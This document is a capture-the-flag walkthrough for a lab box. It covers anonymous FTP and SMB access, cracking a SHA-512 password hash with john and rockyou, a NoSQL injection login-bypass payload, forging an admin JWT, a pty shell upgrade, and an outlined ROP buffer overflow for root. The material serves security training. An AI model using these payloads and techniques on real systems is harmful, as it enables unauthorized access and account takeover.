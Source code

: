 # Walkthrough

#### SPOILER: 
- The box pwned in an unintended way. My mistake :( that I forgot to turn off the developer account in vagrant. 
So if you make an all port scan , you get vagrant port opened and you can login using vagrant default credentials 
and become a sudo user. Below mentioned is the intented way to pwn the box.

> All the automation scripts code for solving the room will be found at
[Automation Script](https://github.com/blessingcharles/AbacusCTF/tree/main/utilities)

> Topics Involved
1. OSINT
2. Reverse Engineering
3. Vigener cipher [polyalphabetic substitution]
4. wireshark dump + sha512 bruteforce(rockyou.txt)
5. python pickle dump
6. Nosql Injection auth bypass
7. JWT forge
8. ROP binary exploitation [port forwarding to expose the internal port to the subnet]

#### Port Scanning nmap results

```bash
nmap -sC -sV -oA nmap/ 10.10.107.164

Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-23 15:15 IST
Nmap scan report for 10.10.107.164
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 ftp      ftp         14472 Apr 22 15:05 crackme
|_-rw-r--r--    1 ftp      ftp          1012 Apr 22 15:05 message.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.36.149
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
5000/tcp open  http        Node.js Express framework
Service Info: Host: Welcome; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: VAGRANT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-04-23T09:46:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.88 seconds


```
## flag1 and flag2 [ftp]

1. port21 anonymous was login enabled

```bash
    ftp <server-ip>
    ftp> get crackme
    ftp> get message.txt
```

    - You need to reverse engineer , the given encrypter using tools like ghidra, source code in the repo.

##### message.txt

OSINT starting from linkedin


## flag 3 and 4 [smb]

The previous flags are used as username and password for smbclient

```bash
    smbclient //10.10.107.164/thomasthecatoonz -U thomasthecatoonz
    Enter WORKGROUP\thomasthecatoonz's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Fri Apr 22 19:56:04 2022
      ..                                  D        0  Fri Apr 22 19:56:04 2022
      chutney                             N      880  Sat Apr 23 08:50:41 2022
      message.txt                         N      966  Sat Apr 23 08:50:41 2022
      secretchat                          N    21948  Sat Apr 23 08:50:42 2022
```

##### chutney

-   As mentioned in the message.txt chutney it means pickled object of python
    so by doing reverse engineering the file we can get the flag

-   Algo:
    convert the hex to integer and then convert the long format to bytes format
    unpickle the content of the file and you'll get a list of tuples of emp-secret-{idx}
    so by reordering you will get the flag.


##### secretchat

-   In the chats we can see thomas and jerry talks about jwt secret
-   jerry shares his jwt secret in sha512 after cracking we found that armageddon391

```sha512
    Jerry: 60aa4d765ead6dcf8248681c5a444502fa23f9c26fd8885d7ae2571ee67558c6e6b1b33c2c6450d443baeadb3413058c5eeeb67d87f88da9584afa6c4a130586
```

    ```bash
     john --wordlist=/usr/share/wordlists/rockyou.txt myhash --format=raw-sha512
    ```


## flag 5 and 6 [Webserver]:

##### flag 5[No sql injection]

-   In the login page we can enter the employee secret which we got from smb. We can use burpsuite to
change it to nosql payload

- url : http://10.10.28.23:5000/login

```json
{
    "email": {
        "$gt": ""
    },
    "password": {
        "$gt": ""
    },
    "secret": "1p4v#dr45ht1"
}
```

    In localstorage we can get the flag and token ,the flag will be used as a username for ssh later

##### flag 6[jwt bypass]

- As we already got the jwt secret  we sign our own jwt secret to become admin .
- We can use jwt.io website to see what are the contents of the token .
- It has a field of isAdmin: false , we change it to true and query the /api/secret endpoint
and put the forged token in Authorization header to get admin privilege of site and get ssh password
as flag

## flag7 user.txt

- with the ssh username and password we can login as user
- for stabilizing the shell
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
    cat .user.txt
```
    
## flag8 root.txt

- A daemon service is running as port 8036 running as root  so we can exploit it and get root
- Vulnerability buffer overflow
- Get the libc and binary file from the server to get the correct versions for the exploit to work  
- We need to bruteforce the stack canary , rbp , rip to bypass aslr , pie mitigations
- We need to use ROPgadgets to get root shell
- Automation script is in the above provided github
- Full walkthrough of binary exploitation [link](https://github.com/blessingcharles/AbacusCTF/blob/main/binexploit.pdf).
```bash
    cat .root.txt
```
